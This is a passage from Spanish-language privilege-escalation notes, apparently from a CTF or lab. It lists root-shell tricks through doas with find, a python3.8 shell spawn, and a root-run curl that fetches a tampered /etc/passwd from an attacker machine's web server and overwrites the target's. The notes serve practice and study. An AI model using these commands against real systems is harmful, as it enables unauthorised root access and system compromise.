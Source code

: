 mv authorized_keys .ssh/

doas -u ajneya cp -r /tmp/.ssh/ /home/ajneya/

4.- ssh ajneya@10.0.2.4

tenemos acceso por ssh con el usuario ajneya

H.2.- permit nopass keepenv adam as root cmd /usr/bin/find

/usr/bin/doas -u root /usr/bin/find . -exec /bin/sh \; -quit

o 

/usr/bin/doas -u root /usr/bin/find . -exec /bin/sh -p \; -quit


-------------------------------------------------------------------------------

I.-	/usr/bin/python3.8

ejecutamos:

/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

listo somos root

-------------------------------------------------------------------------------

J.-	/usr/bin/curl


como tenemos curl disponible, voy a copiar el contenido de /etc/passwd
y en mi maquina atacante me creo un archivo passwd donde pego el contenido
de /etc/passwd de la maquina comprometida, modificando la primera linea
dejandola asi:

antes de modificar:	root:x:0:0:root:/root:/bin/bash
despues de modificar:	root::0:0:root:/root:/bin/bash

ahora desde mi maquina atacante levanto un servidor con python 

python3 -m http.server

luego, desde la maquina comprometida, como podemos ejecutar /usr/bin/curl como root
vamos a descargar el archivo que modificamos en la maquina atancante y guardarlo
en /etc/passwd, asi conseguimos modificar el contenido del archivo original

/usr/bin/curl http://172.17.0.1/passwd -o /etc/passwd

cat /etc/passwd |grep root
root::0:0:root:/root:/bin/bash

despues de validar los cambios, vemos que en efecto sobreescribimos el original
asi que ahora podemos escalar a root.

su root
#root

-------------------------------------------------------------------------------

k.- 	/usr/bin/dash
